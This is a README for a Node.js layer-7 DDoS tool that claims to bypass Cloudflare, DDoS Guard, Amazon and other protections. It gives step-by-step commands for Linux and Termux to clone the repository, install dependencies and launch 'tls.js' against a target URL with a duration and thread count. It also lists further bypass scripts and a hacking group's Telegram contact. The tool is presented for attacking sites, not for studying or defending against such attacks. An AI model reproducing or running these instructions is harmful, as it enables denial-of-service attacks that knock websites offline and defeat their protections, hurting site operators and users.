 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage LINUX OR Ubuntu
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1



   
Usage TERMUX
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ npm install user-agents
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    # post.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
